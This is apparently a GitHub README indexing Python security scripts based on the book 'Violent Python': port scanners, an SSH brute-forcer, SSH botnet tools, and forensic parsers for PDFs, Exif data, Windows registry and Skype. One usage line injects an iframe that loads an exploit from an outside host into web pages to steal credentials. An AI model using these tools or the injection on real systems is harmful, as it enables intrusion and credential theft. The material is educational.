 # Digital-Forensic-Analytics  
Forensic Investigation, Network Traffic Analysis, Penetration Testing, Antivirus Evasion, Web recon


These codes are almost similar to book: "Violent Python: A Cookbook for Hackers, Forensic Analysts, Penetration Testers and Security Engineers" book by TJ. O’Connor.  

## Operating System  
  
I Use virtualbox to setup a Ubuntu 18.04 LTS linux box to run these on  
The actual i have is Kali Linux 64 Bit 2018.2  
Window7 for few scripts  
  
Where possible i display all he codes with result Jupyter notebook (#FileFormat .ipynb)  
  
# Penetration Testing  
## PortScan.py  

In the command Line pass the port argument as a string i.e in " " for multiple port like follow;  
taymour:∼# python portScan.py -H 10.50.60.125 -p "21, 1720"  
  
## Nmap_Port_Scanner.py
Scan the ports on the provided hosts.

## D) SSH_Botnet.py
Issue commands on ssh hosts at once provided you have the user names and passwords.

## E) sshBrute.py
Brute forces a host's ssh server with a provided worldlist

## H) botNet.py
Change IP, Root, Password to issue SSH commands on compromised machines.

## I) anonLogin.py  
First you have to allow /etc/vsftpd.conf file to enable anon_login to yes or uncomment it  

## L) massCompromise.py  
In command line following options are required to attack web pages and inject your own html file to steal compromised user credentials in default location  
Usage from terminal      
taymour# python massCompromise.py -H 192.168.95.179 -r '<iframe src="  
http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt  

## M) discoverNetworks.py    
Allow to analyse connected wifi through mac adress by reading windows registry  
Usage from command prompt    
(py27) C:\Users\Taymour> python discoverNetworks.py -u <username> -p <password>  
  
## N) dumpRecycleBin.py  
  
Allows to discover deleted items in windows operating system ,also provide information about the user who delete files


## O) PdfRead.py

Usage#  
taymour:!# python pdfRead.py -F Violent_Python.pdf  
provide metadata and information about pdf like creation date, user, title, creator, producer etc.  


## P) exifFetch.py

build a script to connect to a Website, download all the images on the site, and then check them for Exif metadata.  
#Usage in CMD   
  
python exifFetch.py -u http://www.flickr.com/photos/dvids/4999001925/sizes/o  


## Q) skype-parse.py  
### Using Python and Sqlite3 to Automate Skype Database Queries
  
List out variety of contents of skype in python console about skype user history name, tags, location, text messages etc  
Usage#  
python skype-parse.py -p C:\AppData\Roaming\Microsoft\Skype_for_Desktop\skylib\taymourniazi  
